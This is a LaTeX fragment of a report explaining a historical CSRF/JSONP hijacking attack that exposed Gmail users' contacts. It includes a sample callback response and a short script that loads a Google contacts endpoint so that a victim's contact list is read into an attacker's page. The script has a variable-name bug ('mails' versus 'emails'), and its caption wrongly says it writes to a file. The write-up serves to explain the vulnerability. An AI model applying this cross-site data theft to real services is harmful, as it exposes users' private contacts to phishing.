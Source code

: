 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
  What made this possible was the server's verification scheme: it was only verifying that the caller was logged in 
  to a Google account. The ever active cookie declared it without hesitation which led to a successful attack.
  To make it even worse, the server did not check if the call came from the same webpage~\cite{gmail_contact_list_csrf}. A simple popup window could 
  have triggered this attack.
  
  \nocite{gmail_contact_list_csrf2}
  
  \begin{figure}[h!t]
  \begin{verbatim} % JS = JavaScript
  google ({
  	Success: true,
  	Errors: [],
  	Body: {
      AuthToken: {
      	Value: '********'
    },
    Contacts: [
      {
        Id: '***',
        Email: 'users at dwr.dev.java.net',
        Affinity: ***,
        Groups: [
          {
            id: '^Freq',
            value: 'users at dwr.dev.java.net'
          }
        ],
        Addressess: [],
        Phoness: [],
        Imss: []
      },
    // Lots more contacts here
    ]
  	}
  })
  \end{verbatim}
  \caption{The JavaScript callback function that returned a data structure (object) with all email contacts~\cite{oreilly}.}
  \label{figure:callback_js}
  \end{figure}
  
  As you can see in Figure~\ref{figure:callback_js}, several fields were accessible. The affinity field told the attacker how important 
  the contact was to that user, making it a more vulnerable target for phishing attempts~\cite{oreilly}. 
  
  \begin{figure}[h!t]
  \begin{verbatim} % JS = JavaScript
  <script type="text/javascript">
	function google(data){
      var emails, i;
      for (i = 0; i < data.Body.Contacts.length; i++) {
        mails += "<li>" + data.Body.Contacts[i].Email + "";
      }
      document.write("<ol>" + emails + "</ol>");
	}
  </script>
 
  <script type="text/javascript" 
  src="http://docs.google.com/data/contacts?out=js
              &show=ALL&psort=Affinity&callback=google&max=99999">
  </script>
  \end{verbatim}
  \caption{A simple JavaScript that calls the function in Figure~\ref{figure:callback_js} and writes the received data to a file.}
  \label{figure:callback}
  \end{figure}
  
\end{document}
